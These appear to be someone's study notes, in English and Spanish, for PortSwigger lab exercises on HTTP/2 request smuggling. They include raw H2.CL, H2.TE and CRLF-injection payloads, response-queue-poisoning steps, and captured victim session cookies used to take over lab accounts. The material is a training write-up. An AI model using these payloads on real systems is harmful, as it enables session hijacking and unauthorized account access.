

# Laboratories http/2 request smuggling

## Lab: H2.CL request smuggling

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.

To solve the lab, perform a request smuggling attack that causes the victim's browser to load a malicious JavaScript file from the exploit server and call alert(document.cookie). The victim user accesses the home page every 10 seconds.

This lab supports HTTP/2 but doesn't advertise this via ALPN. To send HTTP/2 requests using Burp Repeater, you need to enable the Allow HTTP/2 ALPN override option and manually change the protocol to HTTP/2 using the Inspector.

Please note that this feature is only available from Burp Suite Professional / Community 2021.9.1.


This laboratory its very easy


```html
POST / HTTP/2
Host: 0a6b002c04545beac0b50c5e00a7004e.web-security-academy.net
Content-Length: 0

GET /resources HTTP/1.1
Host: exploit-0aec005b04305ba2c0110c4701670038.web-security-academy.net
Content-Length: 5

x=1
```


## Lab: Response queue poisoning via H2.TE request smuggling

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.

To solve the lab, delete the user carlos by using response queue poisoning to break into the admin panel at /admin. An admin user will log in approximately every 15 seconds.

The connection to the back-end is reset every 10 requests, so don't worry if you get it into a bad state - just send a few normal requests to get a fresh connection.

Note
- Enable allow http/2 alpn override in repeater
- change protocol to http2

Solve
-------
- Delete user carlos 
- /admin log every 15 seconds
- The conecction backen is reset every 10 request . SEnd few normal request to get a fresh conection


1º We need send request with second request return 400 less the steal request.
2º When we have a valid request, we copy cookie and use for delete user carlos.
3º in real environments this request its posible has sent for other usert taht not is admin


```html
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Content-Type: x-www-form-urlencoded\r\n
Content-Length: 61\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
GET /anything HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
```
💥  cuidado con los espacios del final.

```html
POST /x HTTP/2
Host: 0a4100d703970f63c0d0ce3e00900040.web-security-academy.net
Transfer-Encoding: chunked

0

Get /x HTTP/1.1
Host: 0a4100d703970f63c0d0ce3e00900040.web-security-academy.net


```

Después de un millón de inentos XD


Now send /admin request with cookie stealed.


Send request delete carlos


## Lab: HTTP/2 request smuggling via CRLF injection

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests and fails to adequately sanitize incoming headers.

To solve the lab, use an HTTP/2-exclusive request smuggling vector to gain access to another user's account. The victim accesses the home page every 15 seconds.

If you're not familiar with Burp's exclusive features for HTTP/2 testing, please refer to the documentation for details on how to use them.

Note
- Enable allow http/2 alpn override in repeater
- change protocol to http2

To inject newlines into HTTP/2 headers, use the Inspector to drill down into the header, then press the Shift + Return keys. Note that this feature is not available when you double-click on the header.

We covered some ways you can capture other users' requests via request smuggling in a previous lab.


Aparece un historial de búsqueda

Observamos que tiene un historial de sesion 


Si borramos las cookie vemos que el historial de sesion depende de la cookie


shitft+return para poner el tabulador y salto de linea

```html
Nombre

foo
Valor

bar\r\n
Transfer-Encoding: chunked
```


Al ver que algunas peticiones son 404 es que está pillando el smugglin

Hay que fijarse también en el mensaje que pone del header


Añadimos

💥  Hasta que no puse la cookie no funcionó bien devolviendo victim-fingerprint etc

```html
0

POST / HTTP/1.1
Host: 0aec0036045071f0c01590d900d800e0.web-security-academy.net
Cookie: session=4xmI0DxlrILrZp43quF6DYPH64xnawtA; _lab_analytics=YAQi9MFKcUAbPyNlLxjyT0hHnVcs3SVWLw5NsGXoRHsHpHUruwc11pmi9aJiittAlli0g12d6XIzdlLcDrYSTLqd7QCN3f21NYXMosFpsR4XsECDfcbFfoGSZU56x7xjwhg75gSA1uz82JEpBSw1TTyxsFy6twC4Yare6xiRe1vZt55vhalcyX9fuDtjCxEsG0jDmonjeNyaMuXE4Vw57vMBprlE18qEjiWDtgI6xmngvnKmVY0QJYikGke3mOEN
Content-Length: 800

search=x
```


copy full cookie
💥  se añade todo

```html
Cookie: victim-fingerprint=UVvz3zSxhmekI2W4A5tciZocpwhFT1uP; secret=NE3xzdwXCqwOF3GzumBsnoV1nTs0Xp5b; session=j1T6ShePTIJCkAipxOjoaLMb9O08MQOm; _lab_analytics=3xV8oD34Wuffq3ohYbEz9creNLJ3Pm7g5cDWMneNd0SqJji1czIrgn
```


## Lab: HTTP/2 request splitting via CRLF injection

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests and fails to adequately sanitize incoming headers.

To solve the lab, delete the user carlos by using response queue poisoning to break into the admin panel at /admin. An admin user will log in approximately every 10 seconds.

The connection to the back-end is reset every 10 requests, so don't worry if you get it into a bad state - just send a few normal requests to get a fresh connection.

Note
- Enable allow http/2 alpn override in repeater
- change protocol to http2


### image 1
 

### image 2

```html

Name : foo 
Value: anything\r\n
\r\n
GET /x HTTP/1.1\r\n
Host: 0a23001e04701c83c0e90486006b00af.web-security-academy.net
```


### image 3


### image 4


### image 5

